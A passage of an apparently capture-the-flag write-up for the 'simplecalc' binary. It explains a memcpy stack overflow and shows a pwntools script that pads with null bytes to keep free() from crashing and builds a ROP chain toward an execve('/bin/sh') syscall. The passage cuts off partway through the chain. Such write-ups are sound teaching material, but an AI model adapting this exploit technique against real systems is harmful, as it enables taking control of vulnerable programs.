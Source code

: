 We can see here that if the argument we pass to free is a null pointer (`0x0`) then it just returns. Since the function writing the data for the overflow is `memcpy`, we can write null bytes. So if we just fill up the space between the start of our input and the return address with null bytes, we will be fine.

With that, we have everything we need to make the exploit. In the comments, you can find the exact ROP chain I used as well as what each part does. Also I wrote some helper functions which will write the values I want using addition:

```
from pwn import *

target = process('./simplecalc')
#gdb.attach(target, gdbscript = 'b *0x40154a')

target.recvuntil('calculations: ')
target.sendline('100')

# Establish our rop gadgets
popRax = 0x44db34
popRdi = 0x401b73
popRsi = 0x401c87
popRdx = 0x437a85

# 0x000000000044526e : mov qword ptr [rax], rdx ; ret
movGadget = 0x44526e

syscall = 0x400488

# These two functions are what we will use to give input via addition
def addSingle(x):
  target.recvuntil("=> ")
  target.sendline("1")
  target.recvuntil("Integer x: ")
  target.sendline("100")
  target.recvuntil("Integer y: ")
  target.sendline(str(x - 100))


def add(z):
  x = z & 0xffffffff
  y = ((z & 0xffffffff00000000) >> 32)
  addSingle(x)
  addSingle(y)

# Fill up the space between the start of our input and the return address
for i in xrange(9):
  # Fill it up with null bytes, to make the ptr passed to free be a null pointer
  # So free doesn't crash
  add(0x0)

# Start writing th0e rop chain
'''
This is our ROP Chain

Write "/bin/sh" tp 0x6c1000

pop rax, 0x6c1000 ; ret
pop rdx, "/bin/sh\x00" ; ret
mov qword ptr [rax], rdx ; ret

# Move the needed values into the registers
pop rax, 0x3b ; ret
pop rdi, 0x6c1000 ; ret
pop rsi, 0x0 ; ret
```